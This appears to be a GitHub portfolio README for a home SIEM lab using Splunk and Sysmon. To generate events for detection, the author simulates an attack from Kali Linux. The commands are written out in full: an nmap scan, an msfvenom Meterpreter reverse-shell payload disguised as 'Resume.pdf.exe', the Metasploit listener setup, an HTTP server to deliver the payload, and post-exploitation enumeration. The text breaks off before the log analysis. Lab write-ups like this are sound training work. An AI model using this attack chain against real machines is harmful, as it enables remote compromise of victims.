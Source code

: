 ### SIEM-Implementation-and-Log-Analysis

### Objective
This SIEM implementation lab focused on deploying and configuring a Security Information and Event Management (SIEM) solution using Splunk on a Windows virtual machine. The goal was to monitor and detect security threats by leveraging Sysmon logs, while simulating real-world cyber attacks from a Kali Linux virtual machine using Metasploit and MSFvenom. These simulations generated security events that were analyzed to improve incident response capabilities. The hands-on project provided practical experience in using Splunk Processing Language (SPL), parsing log data, and identifying attack patterns through parent-child process relationships.

### Skills Learned
. Gained advanced understanding of SIEM concepts and their real-world application.
. Demonstrated proficiency in analyzing, interpreting, and correlating network and host-based logs.
. Developed the ability to generate and identify attack signatures and behavioral patterns.
. Strengthened knowledge of network protocols and common security vulnerabilities.
. Enhanced critical thinking and problem-solving skills in cybersecurity contexts.
. Deepened understanding of the importance of filtering and prioritizing logs using EventCodes for effective threat detection.

### Tools Used
. Splunk – Deployed as the SIEM platform for log ingestion, correlation, and security event analysis.
. Kali Linux – Used for simulating attacks, including payload generation with MSFvenom and exploitation with Metasploit.
. Telemetry Generation Tools – Employed to simulate realistic network traffic and create meaningful attack scenarios.
. Windows Logging & Monitoring – Utilized Sysmon and native event logging to collect and analyze security-relevant data, with a focus on process creation events and parent-child relationships.

### Steps
1. Screenshots of Kali Linux Attack Simulation
Below are key command-line steps executed on the Kali Linux virtual machine during the simulated cyber attack targeting the Windows environment:
Nmap Port Scan
Objective: Identify open ports on the Windows target.
Command: nmap -sS -T4 -Pn <target-ip>
Result: Discovered open TCP port 3389 (RDP) indicating a potential remote access point.
![image alt](https://github.com/waqar172/Portfolio/blob/master/01.PNG?raw=true)

2. MSFvenom Payload Generation
Objective: Create a malicious executable to simulate initial access.
Command: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=4444 -f exe -o Resume.pdf.exe
Output: Generated a reverse shell payload disguised as a PDF file.
![image alt](https://github.com/waqar172/Portfolio/blob/master/02.PNG?raw=true)

3. Metasploit Exploit Setup
Objective: Configure the Metasploit listener to handle the reverse shell.
Commands: msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <kali-ip>
set LPORT 4444
run
![image alt](https://github.com/waqar172/Portfolio/blob/master/03.PNG?raw=true)

4. Python HTTP Server for Payload Delivery
Objective: Serve the malicious file to the Windows victim machine over HTTP.
Command: python3 -m http.server 9999 </br>
![image alt](https://github.com/waqar172/Portfolio/blob/master/04.PNG?raw=true)

5. HTTP Server Webpage Hosting the Payload
Objective: Deliver the malicious executable (Resume.pdf.exe) to the target Windows machine. The file is hosted via a simple Python HTTP server on port 9999.
Command used to start the server: python3 -m http.server 9999
Description:
The screenshot displays the HTTP server’s web interface as seen from a browser, listing the malicious payload (Resume.pdf.exe) and confirming it is accessible for download by the Windows target.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/05.PNG)

6. Evidence of Reverse Shell Connection on Windows Target
Objective: Confirm that the malicious payload (Resume.pdf.exe) executed successfully and established a reverse TCP connection from the Windows machine to the Kali Linux attacker's machine.
Screenshot 1: Established Connection via netstat
Command Run: netstat -anob
Description:
This screenshot captures the Windows command prompt output showing an active TCP connection from the Windows machine to the Kali Linux attacker's IP on port 4444. The connection is linked to PID 3588, indicating the process responsible for the communication.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/06.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/07.PNG)

Screenshot 2: Process Linked to Payload in Task Manager
Description:
This screenshot displays the Services tab in Task Manager, verifying that PID 3588 belongs to the malicious file Resume.pdf.exe. This confirms that the payload generated via MSFvenom is actively running and responsible for the established reverse shell connection.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/08.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/09.PNG)

7. Meterpreter Session Established from Kali Linux
Objective: Confirm that the Metasploit handler successfully received a reverse TCP connection from the Windows target.
Screenshot 1: Metasploit Reverse Shell Connection
Description:
This screenshot captures the Metasploit console after executing the exploit command. The terminal output shows that the handler began listening on the specified local port and successfully received a reverse TCP connection, initiating Meterpreter session 4. The connection is from the Windows target IP back to the Kali Linux attack machine.
Screenshot
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/10.PNG)

8. Post-Exploitation Commands Executed via Meterpreter
Objective: Simulate initial attacker enumeration activities following successful compromise.
Screenshot 2: Post-Exploitation Enumeration via shell
Description:
After invoking the shell command within the Meterpreter session, the Windows Command Prompt (cmd.exe) was accessed. Several commands were executed to gather system and user information:
net user – Lists user accounts on the system.
net localgroup – Displays local user groups.
ipconfig – Shows network interface configurations and IP address assignments.
Screenshot


